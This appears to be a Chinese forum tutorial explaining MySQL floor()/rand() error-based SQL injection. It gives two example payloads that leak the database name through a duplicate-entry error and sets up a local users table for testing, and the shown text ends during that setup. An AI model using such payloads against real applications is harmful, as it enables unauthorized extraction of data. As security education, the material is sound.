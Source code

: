 

# sql 注入之 floor 报错注入原理学习 - 先知社区

sql 注入之 floor 报错注入原理学习

- - -

# Floor 报错注入原理学习

> Payload 一般长这样
> 
> select count(*) from users group by concat(database(),floor(rand(0)*2));  
> select count(*),concat(database(),floor(rand(0)*2)) as x from users group by x;
> 
> > 结果一般长这样
> > 
> > ERROR 1062 (23000): Duplicate entry 'sqli1' for key 'group\_key'

## 前置

### 创建一个表 那就叫 users 吧

```bash
mysql> create database sqli;
Query OK, 1 row affected (0.02 sec)

mysql> use sqli;
Database changed

mysql> create table users (id int(3),username varchar(100),password varchar(100));
Query OK, 0 rows affected (0.06 sec)

mysql> desc users;
+----------+--------------+------+-----+---------+-------+
| Field    | Type         | Null | Key | Default | Extra |
+----------+--------------+------+-----+---------+-------+
| id       | int(3)       | YES  |     | NULL    |       |
| username | varchar(100) | YES  |     | NULL    |       |
| password | varchar(100) | YES  |     | NULL    |       |
+----------+--------------+------+-----+---------+-------+
3 rows in set (0.03 sec)
```

### 放几条数据进去

```bash
mysql> insert into users values(1,'admin',md5('123456'));
Query OK, 1 row affected (0.03 sec)

mysql> insert into users values(1,'laolao',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'guairui',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'jiangjiang',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'moss',md5('12345'));
Query OK, 1 row affected (0.01 sec)

mysql> insert into users values(1,'ltpp',md5('12345'));
```